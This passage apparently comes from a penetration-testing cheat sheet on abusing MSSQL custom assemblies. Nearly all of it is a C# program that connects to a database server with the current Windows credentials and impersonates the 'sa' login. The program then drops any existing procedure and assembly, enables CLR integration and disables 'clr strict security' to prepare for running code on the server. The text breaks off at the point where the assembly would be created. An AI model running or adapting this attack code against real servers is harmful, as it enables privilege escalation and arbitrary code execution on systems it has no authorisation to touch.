 


## Custom Assemblies

Load and trigger custom assembly:

{% code title="SqlCustomAssembly.cs" %}
```csharp
using System;
using System.Data.SqlClient;

namespace SqlProcedure
{
    class Program
    {
        static string sqlQuery(string query, SqlConnection con)
        {
            SqlCommand command = new SqlCommand(query, con);
            SqlDataReader reader = command.ExecuteReader();
            string result = "";
            try
            {
                while (reader.Read()) { result += $"{reader[0]}\n"; }
                result = result.Remove(result.Length - 1);
            }
            catch { }
            reader.Close();
            return result;
        }

        static void Main(string[] args)
        {
            // Authenticate
            string sqlServer = "SQLSRV01.megacorp.local";
            string database = "master";
            string conString = $"Server = {sqlServer}; Database = {database}; Integrated Security = True;";
            SqlConnection con = new SqlConnection(conString);

            try
            {
                con.Open();
                Console.WriteLine("[+] Auth success!");
            }
            catch
            {
                Console.WriteLine("[-] Auth failed");
                Environment.Exit(0);
            }

            // Impersonate sa user
            sqlQuery("EXECUTE AS LOGIN = 'sa';", con);

            // Drop existing procedure and assembly
            sqlQuery(@"use msdb; DROP PROCEDURE IF EXISTS SqlCmdExec;", con);
            sqlQuery(@"use msdb; DROP ASSEMBLY IF EXISTS myAssembly1;", con);

            // Enable CLR integration
            sqlQuery("use msdb; EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'clr enabled',1; RECONFIGURE; EXEC sp_configure 'clr strict security',0; RECONFIGURE;", con);
            Console.WriteLine("[+] Enabled CLR integration");
            // Create new assembly
```